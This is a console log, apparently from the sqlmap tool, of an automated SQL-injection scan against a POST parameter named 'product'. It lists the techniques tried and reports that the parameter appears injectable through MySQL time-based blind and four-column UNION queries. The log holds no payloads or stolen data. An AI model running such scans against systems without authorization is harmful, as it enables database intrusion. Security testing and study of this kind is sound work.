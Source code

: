 ```python
[04:00:22] [INFO] testing if the target URL content is stable
[04:00:22] [INFO] target URL content is stable
[04:00:22] [INFO] testing if POST parameter 'product' is dynamic
[04:00:23] [WARNING] POST parameter 'product' does not appear to be dynamic
[04:00:23] [WARNING] heuristic (basic) test shows that POST parameter 'product' might not be injectable
[04:00:23] [INFO] testing for SQL injection on POST parameter 'product'
[04:00:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[04:00:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[04:00:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[04:00:23] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[04:00:23] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[04:00:23] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[04:00:23] [INFO] testing 'SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)'
[04:00:24] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[04:00:24] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[04:00:24] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[04:00:24] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[04:00:24] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause'
[04:00:24] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[04:00:24] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[04:00:24] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[04:00:24] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[04:00:24] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONVERT)'
[04:00:24] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONCAT)'
[04:00:24] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[04:00:24] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (UTL_INADDR.GET_HOST_ADDRESS)'
[04:00:25] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[04:00:25] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[04:00:25] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[04:00:25] [INFO] testing 'PostgreSQL error-based - Parameter replace'
[04:00:25] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Stacking (EXEC)'
[04:00:25] [INFO] testing 'Generic inline queries'
[04:00:25] [INFO] testing 'MySQL inline queries'
[04:00:25] [INFO] testing 'PostgreSQL inline queries'
[04:00:25] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[04:00:25] [INFO] testing 'Oracle inline queries'
[04:00:25] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[04:00:25] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[04:00:25] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[04:00:25] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (DECLARE - comment)'
[04:00:25] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[04:00:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[04:00:35] [INFO] POST parameter 'product' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (1) values? [Y/n] n
[04:01:07] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[04:01:07] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[04:01:07] [INFO] target URL appears to be UNION injectable with 4 columns
```